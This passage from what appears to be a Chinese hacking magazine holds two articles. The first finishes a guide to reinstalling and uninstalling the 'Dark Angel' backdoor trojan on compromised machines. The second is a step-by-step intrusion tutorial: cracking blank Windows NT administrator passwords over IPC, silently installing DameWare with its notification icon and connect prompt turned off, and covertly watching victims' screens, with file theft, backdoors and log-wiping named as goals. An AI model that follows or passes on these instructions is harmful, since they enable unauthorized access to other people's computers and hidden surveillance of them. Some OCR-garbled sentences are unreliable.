

图16中的“1”就是输入的 IP 地址序号。输入“1”以后，每隔4、5秒钟按一下回车键，直到所有的提示信息出来为止。这种方式主要用于“黑暗天使”的升级安装。例如：你已经在一台机器上安装了“黑暗天使2.1”，现在要装2.3，如果目标机器的 telnet 服务不能用，你可以先连到“黑暗天使”自带的服务器命令行窗口中，先用“dkangel -u”进行卸载，卸载完了以后，“黑暗天使2.1”会在90秒钟后停止，你可以利用这90秒的时间安装2.3。关于在“黑暗天使”自带的服务器命令行窗口中卸载“黑暗天使”的方法，请参考卸载木马部分。

### 三、卸载木马

通过登录到目标机器的 telnet 服务器上卸载很简单，只要按照提示输入在设置木马时设置的密码就行了，如图17所示。



对于在通过远程溢出攻击产生的命令行窗口或“黑暗天使”自带的命令行窗口中卸载“黑暗天使”，由于不会出来提示信息，你在运行“dkangel -u”后，等几秒钟就输入密码，每隔5、6秒钟按一下回车键；如果没反应，你再输入一次密码，每隔5、6秒钟按一下回车键，直到所有的提示信息出来为止。卸载以后会有90秒钟让你安装更新版本的“黑暗天使”，如图18所示。



### 四、参数说明

- -u20 —— 卸载黑暗天使2.0，卸载完后，要重启才能安装更高版本的“黑暗天使”。
- -u —— 卸载“黑暗天使2.0”以上版本，卸载完后，不需要重启就能安装更高版本的“黑暗天使”。
- -h —— 显示帮助信息。

平时这东西对我没有什么用处，只是在黑一些破网站的时候才有大的用场。第一次写这样的文章，没有什么经验。谢谢支持！


## 你最喜欢的文章

## 入侵全攻略

阿吉

**任务：**获得管理员权限、对远程主机进行实时屏幕监视、屏幕控制、远程执行命令、系统配置修改、文件窃取、留下后门、清除脚印。

**所用工具：**DameWare、Xscan、SMBCrack、Wollf、Clearlog。

**入侵条件：**获取远程主机 WIN NT/2K 的管理员权限，远程主机存在 IPC 共享。

**适用者：**有冷静的头脑（否则后果严重，嘿嘿）。

**所需基本常识：**什么是 IPC。IPC 是 Internet Process Connection 的缩写，也就是远程网络连接。它是 Windows NT 及 Windows 2000 特有的一项功能，就是在两个计算机进程之间建立通信连接。

> **LOOK 注意**：本文所用工具软件目前仍没有被任何杀毒软件查杀，不会被远程主机发现，请放心使用。

微软的 IPC 设计大大方便了微软的用户（这是微软一贯的作风），因为这种设计实现了只要在开有 IPC 共享的远程主机上拥有管理员权限，就可以远程操作该计算机。但总有些大意的网管们没有设置管理员密码，这也就是所谓的 IPC 连接，结果导致整个系统暴露在网络中。这样就大大方便了黑客。可以这样说，基于 IPC 攻击是每个黑客入门必须掌握的技能。但是大多数菜鸟级黑客往往在得到管理员权限后就不知所措了，如果你也在此茫然，那么请往下看，Good Luck!

每台主机上面都有十几或几十的进程在运行，那么两台通信的主机是如何找到对方的进程呢？是通过 [IP:PORT] 即所谓的套接字（SOCKET）来标识每个具体进程的，就像是给每个进程起个名字一样，这样就能找到该通信进程了。IPC 也是应用这种技术来实现的，所以可以通过 DOS 命令来远程调用进程。

由于一般常用命令都是基于命令行的，我所介绍的这种方法，不需要你记住那么多的 DOS 命令。以下的基本操作都是基于 IPC，不过操作已经简化得让你感觉不到 IPC 的存在。

### 一、获取远程主机管理员权限

如果想获取指定主机的管理员权限，那么裕哥的 SMBCrack 是首选（用法如图1所示），破解速度很快，美中不足的是不能将解密结果保存起来。



但是这种暴力破解既费时又容易被发现，破解的成功率完全依赖于对方密码的健壮度。既然我们菜鸟只是为了练手，为何不用扫描器扫出管理员权限呢？OK，打开我的挚爱 Xscan（我觉得 Xscan 很适合我这样的菜鸟，虽然扫得慢一点，但是它扫得滴水不漏，能自动找出主机的各种漏洞，最重要的是有 XFocus 做技术后台，每一个漏洞都会有具体攻击和修补的描述），打开扫描模块，然后填入扫描 IP 段。开始吧，等待一段时间后就会扫到弱口令，就是它。JUST DO IT!

> 为了快点扫出我们需要的弱口令，所以其它的漏洞不设，只设 NT-Server 弱口令，如图2所示。



### 二、登录远程主机

最激动人心的时刻到了，打开主角 Dame Ware 中的工具之一 Dame Ware Mini Remote Control（Dame Ware 远程控制），点击 New Host；填入刚才用 Xscan 扫到的 IP，用户名为 administrator，密码为空（如图3所示），然后点击 connect。

由于是第一次进入该主机，所以 Dame Ware 会弹出错误框 Dame Ware Mini Remote Control-Error 来提示我们在远程主机上安装服务程序，如图4所示。

“啊，还要安装？那也不是很麻烦，不如直接用冰河算了！”不要担心，这个安装程序不用你移动远程主机上面的管理员动手，Dame Ware 会好心地在远程主机毫不知情的情况下远程安装它，而我们所做的只是修改一些服务端设置。

> **LOOK 注意**：因为 Dame Ware 最初的目的是让网管们提供便捷的网络管理工具，有了它网管就不用两边跑去设置、调试两台机器。

跑来跑去了。所以如果我们使用默认的服务端设置，连接上以后，远程主机会得到已被远程控制的提示，并把你的登录信息提交给他，那这样岂不是暴露了自己么？结果很可能是一顿痛打啊，呵呵，所以我们要谨慎行事。





如何修改远程服务端配置让网管软件彻底变成一个黑客软件？OK，从弹出错误对话框那里我们继续。我们在错误 Dame Ware Mini Remote Control-Error 对话框中，点击 OK 按钮表示同意在远程主机上安装服务端程序，进入安装对话框 Dame Ware Mini Remote Control-Install 来配置远程主机上的服务程序，如图5所示。



由于这是将要对远程主机上运行的程序的配置，所以远程主机对我们控制做出的反应全在这里配置。首先看到四个复选框：

- 如果选中 Stop Service On Disconnect，将会在断开远程主机的同时停止 Dame Ware 服务；
- 如果选中 Remove Service On Disconnect，将会在断开远程主机的同时卸载远程主机上的 Dame Ware 服务端程序；
- 如果选中 Set Service Startup type to Manual default is，将会在连接远程主机的时候手动启动远程 Dame Ware 服务端程序；
- 如果选中 Copy Configuration File DWRCS，服务端程序会按照我们更改后的设置在远程主机上执行。

> **LOOK 注意**：这个选项就是把网管程序变成黑客程序的关键。





建议选中第三项和第四项，然后点击 Edit 进入服务端属性配置 Dame Ware Mini Remote Control Properties。在这里只要修改两个地方来隐藏我们的远程控制，其它的这里不作介绍，不会影响入侵的效果。选中 Additional Settings 标签，去掉 Enable SysTray Icon 前面的小勾，这样做是为了除去在连接的时候远程主机工具栏中出现的通知图标，如图6所示。

接着选中 Notify dialog 标签，去掉 Notify on connection 前面的小勾，这样做的话，当远程主机被控制的时候他就不会得到任何提示了（哈哈，够阴险吧），如图7所示。

OK，准备好了吗？然后点击确定进入远程主机。Let me show you the World！

### 三、监视、控制远程主机的屏幕

等待一会，在 Dame Ware Mini Remote Control 就会出现远程主机屏幕，但别忘了要选择 VIEW ONLY 啊。如果没有选 VIEW ONLY，就只是控制对方屏幕操作，远程主机的鼠标会跟着你的鼠标走（鬼一样的感觉啊，会吓死对方主机的，我就吓死过好几个 MM 哦），如图8所示。



我个人认为，Dame Ware 屏幕监视图像质量好，而且比较流畅，外奸女生屏幕监视速度也要快得多，而且不用对方执行任何木马程序就能达到比木马还好的效果，最重要的是不会被杀毒软件查杀，爽！别忘了我们的目的不是偷窥，监视是看看他有什么嗜好。

> **注意**：看见了地方的“OK”按钮（把他（她）激为灰色吧，改来改去的大游戏），况且如果他是拨号上网的话，通过 QQ 也可以知道他的动态 IP，不会因为它的 IP 地址变了而找不到他了。

总之，在能看到远程主机屏幕的情况下，继续下面的活动自己也有安全感啊。

> **注意**：你有办法连到某人的机器里吗？刚刚连接进去你还得知道他在用 NETSTAT -N 命令查你的来路！干这活时可别太张扬。

### 四、远程执行命令、进程查看、控制

我们暂把屏幕监视放在一边，并随时监视远程主机的操作。打开 Dame Ware 的另一个工具 Dame Ware NT Utilities，这个工具是 Dame Ware 的工具类，其中也有刚才使用的 Dame Ware Mini Remote Control，界面如图9所示。

